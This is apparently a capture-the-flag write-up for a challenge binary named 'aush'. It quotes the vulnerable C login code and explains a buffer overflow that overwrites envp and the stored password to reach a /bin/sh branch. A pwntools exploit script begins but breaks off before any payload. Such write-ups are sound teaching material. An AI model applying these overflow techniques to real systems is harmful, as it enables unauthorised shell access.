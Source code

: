 ```c
    args[0] = "/usr/games/cowsay";
    args[1] = "Invalid username";
    args[2] = NULL;
    execve(args[0], args, envp);
  }

  /* Check password */
  write(STDOUT_FILENO, "Password: ", 10);
  if (read(STDIN_FILENO, inppass, 0x200) <= 0)
    return 1;

  if (memcmp(password, inppass, LEN_PASS) != 0) {
    args[0] = "/usr/games/cowsay";
    args[1] = "Invalid password";
    args[2] = NULL;
    execve(args[0], args, envp);
  }

  /* Grant access */
  args[0] = "/bin/sh";
  args[1] = NULL;
  execve(args[0], args, envp);
  return 0;
}
```
The program checks `inpuser` and `inppass`. If both of them are correct, we will get the shell.

Both `userbuf` and `passbuf` are randomize. Bruteforcing 16 and 32 bytes is so hard that I tried to find the bugs of that program.

As you can see, there is a buffer-overflow bug in `if (read(STDIN_FILENO, inpuser, 0x200) <= 0)`, but because `inpuser` is wrong, the program will execute `/usr/games/cowsay`.

But take notice that `envp` is an argument of the `main` function, so it will be below the address of `main`'s local variables.

We can modify `envp` via overflowing `userbuf`, so I changed `envp` to an invaild pointer. So `execve(args[0], args, envp);` will not execute `cowsay`.

```c
  char username[16]; // [rsp+40h] [rbp-80h] BYREF
  char inpuser[17]; // [rsp+50h] [rbp-70h] BYREF
  char password[32]; // [rsp+70h] [rbp-50h] BYREF
  char inppass[33]; // [rsp+90h] [rbp-30h] BYREF
 ```
 
 When I used IDA to analyze, I realized that we can modify `password` via overflowing `inpuser`. So:
 1. Overflowing `inpuser` to change `envp` and `password`
 2. Overflowing `inppass` to change `envp` to NULL ( vaild pointer to execute `/bin/sh`).

Exploit:
```python
from pwn import *
from time import sleep

context.binary = e = ELF("./aush")

gs="""
brva 0x01410
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE:
```